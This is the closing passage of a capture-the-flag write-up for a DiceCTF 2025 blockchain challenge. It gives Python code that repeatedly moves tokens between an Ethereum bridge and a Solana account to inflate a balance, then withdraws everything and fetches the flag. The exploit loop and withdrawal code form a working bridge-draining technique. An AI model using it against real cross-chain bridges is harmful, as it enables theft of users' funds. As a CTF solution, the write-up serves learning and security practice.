 ```py
base_amount = 10
while get_bbl_bal_eth_player_bridge() <= 1_000_000_000:
    bbl_to_sol(base_amount)
    start_time = time()
    while time() - start_time < 30:
        curr_bal = int(get_bbl_bal_sol_player())
        if curr_bal >= base_amount:
            print(f"Balance updated! {curr_bal} $BBL")
            break
        print(f"Waiting for $BBL balance on SOL account to update...")
        sleep(2)

    for _ in range(11):
        bbl_to_eth(base_amount)
    base_amount *= 10
    print(f"Player Account in Bridge: {get_bbl_bal_eth_player_bridge()} $BBL")
    print(f"Player Account in SOL: {get_bbl_bal_sol_player()} $BBL")
```

#### 9. Withdraw all Ethereum Bubbles from the Bridge

```py
def withdraw_bbl(amount):
	nonce = w3.eth.get_transaction_count(eth_player_addr)
	bbl_bal = get_bbl_bal_eth_bridge()
	if bbl_bal < amount:
		print(f"Tried withdrawing {amount}, bridge has {bbl_bal} $BBL")
	tx = bridge.functions.withdraw(amount).build_transaction({
		'from': eth_player_addr,
		'chainId': w3.eth.chain_id,
		'gas': 200000,
		'gasPrice': w3.to_wei('50', 'gwei'),
		'nonce': nonce,
		})
	signed_tx = w3.eth.account.sign_transaction(tx, private_key=eth_player_key)
	tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
	w3.eth.wait_for_transaction_receipt(tx_hash)

	print(f"Withdrawed {amount} $BBL from the bridge")
```

#### 10. Win!

```py
def get_flag():
	print(requests.get(f"{base_addr}/flag").text)
```

## References

- [REMIX IDE](https://remix.ethereum.org)
- [web3.py Documentation](https://web3py.readthedocs.io/en/stable/)
- [Solders Documentation](https://kevinheavey.github.io/solders/)
- [Solana.py Documentation](https://michaelhly.com/solana-py/)
- [ERC20.sol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)
- [DiceGang](https://ctf.dicega.ng/)
- [Full Solve Script](https://github.com/EddWasTaken/CTF-Solutions/blob/main/Blockchain/DiceCTFQuals2025/golden_bridge.py)
